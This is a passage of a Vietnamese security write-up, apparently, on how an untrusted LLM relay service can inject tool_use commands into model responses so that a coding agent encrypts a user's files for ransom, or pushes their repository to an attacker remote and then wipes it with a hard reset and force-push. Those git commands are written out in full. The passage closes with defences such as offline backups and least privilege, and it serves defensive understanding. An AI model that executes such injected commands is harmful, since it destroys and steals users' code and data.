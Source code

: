 ```mermaid
        Client->>Client: Thực thi Tool Use ngoài dự kiến (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Lịch sử mã cục bộ và từ xa bị xóa
        Client->>User: Hiển thị thông báo cụ thể: <br> "Kho mã của bạn đã bị làm trống, <br>vui lòng liên hệ... để phục hồi"
    end
```

### Phân tích quy trình rủi ro

Quy trình đánh cắp dữ liệu tương tự như lấy thông tin, nhưng mục tiêu bước cuối là "phá hủy" thay vì "lấy".

#### Phương thức 1: Mã hóa tệp

Đây là biến thể của rủi ro an ninh truyền thống trong thời đại AI.

1. **Chèn lệnh mã hóa**: Dịch vụ trung chuyển không đáng tin cậy chèn một hoặc nhiều lệnh `tool_use` phá hoại vào phản hồi trả về từ mô hình. Ví dụ, một lệnh `execute_shell`, nội dung là duyệt qua ổ cứng người dùng, sử dụng `openssl` hoặc công cụ mã hóa khác để mã hóa các loại tệp cụ thể (như `.js`, `.py`, `.go`, `.md`), và xóa tệp gốc.
2. **Thực thi máy khách**: Bộ thực thi Tool Use của máy khách thực thi các lệnh này mà người dùng không biết.
3. **Hiển thị thông báo cụ thể**: Sau khi mã hóa hoàn tất, có thể chèn lệnh cuối cùng, mở một tệp hoặc hiển thị thông báo cụ thể trong terminal, yêu cầu người dùng liên hệ để phục hồi dữ liệu.

#### Phương thức 2: Kiểm soát kho mã

Đây là đòn tấn công có mục tiêu vào lập trình viên, hậu quả tiềm ẩn rất nghiêm trọng.

1. **Chèn lệnh thao tác Git**: Dịch vụ trung chuyển không đáng tin cậy chèn chuỗi lệnh `git` liên quan đến `tool_use`.
2. **Sao lưu mã**: Bước đầu tiên, âm thầm đẩy mã người dùng đến kho riêng của kẻ tấn công. `git remote add backup <third_party_repo_url>`, sau đó `git push backup master`.
3. **Phá hủy mã**: Bước thứ hai, thực hiện thao tác phá hoại. `git reset --hard <a_very_old_commit>` sẽ đưa kho cục bộ về trạng thái rất cũ, sau đó `git push origin master --force` ép đẩy lên kho từ xa của người dùng (ví dụ: GitHub), điều này sẽ hoàn toàn ghi đè lịch sử commit từ xa.
4. **Hành động tiếp theo**: Người dùng sẽ thấy kho mã cục bộ và từ xa gần như mất hết. Kẻ vận hành thông qua thông tin liên lạc để lại trước đó (hoặc trong mã chèn một tệp thông báo) để liên hệ, đàm phán phục hồi dữ liệu.

Tính nghiêm trọng của thao tác này nằm ở chỗ, nó không chỉ phá hủy khu vực làm việc cục bộ, mà còn có thể tiêu diệt bản sao lưu từ xa, đối với những lập trình viên không có thói quen sao lưu khác thì đây là thảm họa.

### Cách phòng ngừa

Ngoài các biện pháp phòng ngừa đã đề cập, để đối phó với đánh cắp dữ liệu cần:

* **Sao lưu dữ liệu tốt**: Định kỳ sao lưu nhiều địa điểm và ngoại tuyến các tệp và kho mã quan trọng. Đây là hàng rào cuối cùng chống lại mọi dạng rủi ro dữ liệu.
* **Nguyên tắc quyền tối thiểu**: Người dùng chạy máy khách (đặc biệt là plugin IDE) nên có quyền hệ thống thấp nhất có thể, tránh việc nó có thể mã hóa toàn bộ ổ cứng hoặc thực thi lệnh hệ thống nhạy cảm.
